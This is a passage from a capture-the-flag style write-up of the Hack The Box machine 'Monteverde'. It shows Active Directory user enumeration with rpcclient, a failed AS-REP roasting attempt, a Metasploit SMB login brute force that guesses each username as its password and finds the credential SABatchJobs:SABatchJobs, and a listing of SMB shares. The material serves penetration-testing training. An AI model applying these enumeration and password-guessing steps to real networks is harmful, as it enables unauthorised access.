     Enumerate each account (queryuser) and we find that mhope (Mike Hope) and AAD_987d7f2f57d2 is the only accounts with a login_count
    higher then 0. AAD_987d7f2f57d2 has an interesting description, giving us an installation identifier.

      rpcclient $> queryuser 0x450
      	User Name   :	AAD_987d7f2f57d2
      	Full Name   :	AAD_987d7f2f57d2
        ..
      	Description :	Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
        ..
      	user_rid :	0x450
      	group_rid:	0x201
        ..
      	logon_count:	0x00000009
        ..

    We are unable to get any account hashes using Impacket GetNPUsers.py as the accounts doesn't have UF_DONT_REQUIRE_PREAUTH.


3. Enumerate SMB. We are unable to get any info using smbclient and anonymous login. Using msf we can enumerate the accounts with
   found users. As we don't have any passwords yet we try to set 'USER_AS_PASS' as TRUE.

    msf5 auxiliary(scanner/smb/smb_login) > options
      Name               Current Setting        Required  Description
      ----               ---------------        --------  -----------
      RHOSTS             10.10.10.172           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT              445                    yes       The SMB service port (TCP)
      SMBDomain          megabank.local         no        The Windows domain to use for authentication
      USER_AS_PASS       true                   no        Try the username as the password for all users
      USER_FILE          users-monteverde.txt   no        File containing usernames, one per line

    msf5 auxiliary(scanner/smb/smb_login) > run

      [*] 10.10.10.172:445      - 10.10.10.172:445 - Starting SMB login bruteforce
      ..
      [-] 10.10.10.172:445      - 10.10.10.172:445 - Failed: 'megabank.local\mhope:mhope',
      [+] 10.10.10.172:445      - 10.10.10.172:445 - Success: 'megabank.local\SABatchJobs:SABatchJobs'
      [-] 10.10.10.172:445      - 10.10.10.172:445 - Failed: 'megabank.local\svc-ata:svc-ata',
      ..

    We find one matching credential for SMB - SABatchJobs:SABatchJobs


4. Enumerate SMB further using smbclient and the found credentials.
    root@p3:/opt/htb/machines/monteverde# smbclient -L 10.10.10.172 -U SABatchJobs
      Enter WORKGROUP\SABatchJobs's password:

      	Sharename       Type      Comment
      	---------       ----      -------
      	ADMIN$          Disk      Remote Admin
      	azure_uploads   Disk
      	C$              Disk      Default share
      	E$              Disk      Default share
      	IPC$            IPC       Remote IPC
      	NETLOGON        Disk      Logon server share
      	SYSVOL          Disk      Logon server share
      	users$          Disk
